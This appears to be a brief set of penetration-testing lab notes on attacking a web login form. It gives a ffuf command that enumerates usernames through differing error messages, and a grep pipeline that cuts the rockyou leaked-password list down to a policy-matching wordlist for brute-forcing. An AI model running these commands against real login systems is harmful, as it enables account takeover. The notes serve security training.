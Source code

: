 ____

#  Differing Error Messages

```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://83.136.254.47:56265/index.php -X POST -d "username=FUZZ&password=invalid" -fr "Unknown user" -H "Content-Type: application/x-www-form-urlencoded"
```

# Brute-Forcing Passwords

- contains at least one upper-case character
- contains at least one lower-case character
- contains at least one digit
- minimum length of 10 characters

```bash
grep '[[:upper:]]' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```


